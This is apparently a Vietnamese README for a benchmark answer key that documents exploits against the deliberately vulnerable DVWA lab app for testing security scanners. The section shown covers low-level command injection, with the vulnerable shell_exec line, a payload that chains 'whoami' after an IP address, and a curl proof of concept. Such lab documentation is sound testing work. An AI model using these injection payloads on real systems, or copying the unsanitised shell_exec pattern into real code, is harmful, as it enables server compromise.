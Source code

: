 # DV-baseline

Tài liệu này (**"DV-Baseline"**) được xây dựng nhằm mục đích thiết lập một **"Ground Truth" (Sự thật nền)** chi tiết, có thể kiểm chứng và định lượng được cho ứng dụng Damn Vulnerable Web Application (DVWA).

Mục tiêu chính là cung cấp một bộ dữ liệu tham chiếu (*benchmark dataset*) chuẩn hóa để đo lường, so sánh và xác thực hiệu suất của các công cụ quét bảo mật ứng dụng động (DAST) và các giải pháp phân tích bảo mật tự động khác.  
Tài liệu này đóng vai trò là **"bảng đáp án"** để đánh giá:

- **Độ phủ (Coverage):** Khả năng phát hiện các lỗ hổng ở các mức độ phức tạp khác nhau (*Low, Medium, High*).

- **Độ chính xác (Accuracy):** Khả năng phân biệt giữa lỗ hổng thực sự (*True Positive*) và các báo động giả (*False Positive*) bằng cách phân tích cấp độ *"Impossible"*.  

- **Độ sâu (Depth):** Khả năng vượt qua (*bypass*) các cơ chế phòng vệ (*filter*) cơ bản và nâng cao của công cụ.

# Command Injection - OWSAP Injection
## Security level: low
### Method 

-   Phân tích mã nguồn cho thấy `parameter` 'ip' được truyền trực tiếp vào `shell_exec()` mà không qua bất kỳ bộ lọc nào.

### Mã nguồn gây lỗi (Vulnerable Code):

```
$cmd = shell_exec( 'ping  -c 4 ' . $target );
```
### Các bước khai thác (Proof of Concept):

- **Payload:**  
```bash
127.0.0.1 && whoami
```

- **Lệnh `curl`:**  
```bash
curl -X POST 'http://[DVWA_IP]/vulnerabilities/exec/' \
     -b 'security=low; PHPSESSID=[YOUR_SESSION_ID]' \
     -d 'ip=127.0.0.1 && whoami&submit=Submit'
```

- **Kết quả mong đợi:**  
Trang web trả về kết quả của lệnh `whoami` (ví dụ: `www-data`).
### Screenshots

<img width="2559" height="1335" alt="image" src="https://github.com/user-attachments/assets/b001397c-d73f-40af-a211-0b7a1e1088c1" />

